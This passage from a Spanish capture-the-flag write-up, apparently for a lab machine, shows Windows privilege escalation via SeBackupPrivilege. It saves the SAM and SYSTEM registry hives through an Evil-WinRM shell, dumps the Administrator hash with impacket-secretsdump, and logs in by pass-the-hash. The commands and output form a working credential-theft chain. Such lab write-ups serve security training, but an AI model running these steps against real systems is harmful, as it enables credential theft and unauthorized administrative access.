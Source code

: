 Para realizar la escalada de privilegios tenemos que ver que privilegios tenemos y de cuales podemos abusar para ello los listamos

```shell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

Encontramos algunos permisos un poco raros `SeBackupPrivilege y SeRestorePrivilege` que podemos investigar 

Encotramos esta explotación que podemos hacerla parecida, creando una copia de sam y de system para finalmente obtener los hashed del usuario
`administrator`.

https://medium.com/@pankajaditya/privilege-escalation-abusing-dangerous-privileges-sebackup-serestore-e360309da4a7


```shell
*Evil-WinRM* PS C:\Users> mkdir C:\Temp
*Evil-WinRM* PS C:\Temp> reg sabe hklm\sam C:\temp\sam.hive
*Evil-WinRM* PS C:\Temp> reg save hklm\system C:\temp\system.hive
*Evil-WinRM* PS C:\Temp> download sam.hive
*Evil-WinRM* PS C:\Temp> download system.hive
```

```shell
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up...
```

Finalmente teniendo el hash del usuario administrator podemos obtener una shell con el
siguiente comando.

```shell
evil-winrm -i 10.10.11.35 -u 'Administrator' -H 2b87e7c93a3e8a0ea4a581937016f341
```
